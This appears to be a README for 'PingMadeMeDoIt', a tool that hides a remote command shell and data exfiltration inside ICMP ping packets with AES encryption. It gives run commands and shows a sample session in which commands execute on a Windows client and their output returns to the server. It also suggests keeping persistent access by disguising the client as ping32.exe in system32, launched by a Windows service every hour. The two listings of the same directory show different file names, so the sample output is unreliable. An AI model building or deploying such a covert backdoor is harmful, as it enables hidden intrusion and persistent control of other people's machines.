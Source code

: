 # PingMadeMeDoIt
Mom, ping made me do it ! Use ping to enter shell, execute commands or send data.

Use Ping IMCP 8 to send data, receive data. In our example we implemented a shell, job command and simple plain messaging. All of this in combination with some AES-256 encryption sauce.
Ping client will run as normal ping but if you supply client.exe advanced, it will start the custom ping.

Nowadays this technique is quite known but still it's a nice backup to maintain persistence access to a machine. Maybe combinate this with some windows service which calls our custom ping each 60 minutes, put it in system32\ as ping32.exe ?

<b>run server : python PingMadeMeDoIt.py</b>
server commands : shellstart (start shell), shellexit (exit shell), job: cmd (execute cmd provided and return info), if no command is received default behaviour is to send back reply with the text inputted.

<b>run client : python PingMadeMeDoIt.exe advanced x.x.x.x hello</b>

<br>
<b>Server Side..</b>
<br><br>
[root@yourmom ping]# python3.11 PingMadeMeDoIt.py<br>
Listening for ICMP Echo requests...<br>
Enter the response text to send : shellstart<br>
Entered shell mode.<br>
$ dir<br>
result: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>
<br>
 Directory of C:\Users\yourmom\filled<br>
<br>
07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Crypto.dll<br>
07/30/2023  08:10 PM             9,728 CustomPing.exe<br>
07/30/2023  08:10 PM            24,064 CustomPing.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
$ shellexit<br>
Shell mode exited.<br>
<br>
<b>Client Side..</b>
<br><br>
C:\Users\yourmom\filled>PingMadeMeDoIt.exe advanced x.x.x.x good<br>
Custom ICMP Echo Request sent successfully.<br>
IP Address: x.x.x.x<br>
Roundtrip Time: 3777 ms<br>
Time to Live (TTL): 50<br>
Buffer Size: 94 bytes<br>
Buffer Data (Hex): 73 67 48 7A 62 44 4E 4C 4C 69 75 49 36 62 6E 6B 42 71 4F 52 45 41 3D 3D 7C 6B 66 4B 53 38 49 63 70 32 6F 4E 30 30 4A 44 49 6C 43 49 30 43 62 31 6D 4B 6F 42 6F 4D 70 6A 43 55 54 54 59 4C 71 70 6C 69 2F 34 3D 7C 6A 48 34 2F 42 42 70 43 34 4A 31 46 46 37 38 79 74 38 49 63 2B 67 3D 3D<br>
Buffer Data (ASCII): sgHzbDNLLiuI6bnkBqOREA==|kfKS8Icp2oN00JDIlCI0Cb1mKoBoMpjCUTTYLqpli/4=|jH4/BBpC4J1FF78yt8Ic+g==<br>
Received command: dir<br>
Send ping reply: shellresult:  Volume in drive C has no label.<br>
 Volume Serial Number is A69D-9D16<br>

 Directory of C:\Users\yourmom\filled<br>

07/30/2023  08:10 PM    <DIR>          .<br>
07/30/2023  08:10 PM    <DIR>          ..<br>
12/08/2020  07:05 PM         2,609,152 BouncyCastle.Mom.dll<br>
07/30/2023  08:10 PM             9,728 Deep.exe<br>
07/30/2023  08:10 PM            24,064 Penetration.pdb<br>
               3 File(s)      2,642,944 bytes<br>
               2 Dir(s)  16,437,215,232 bytes free<br>
<br>
Received shellexit. Exiting the loop.<br>

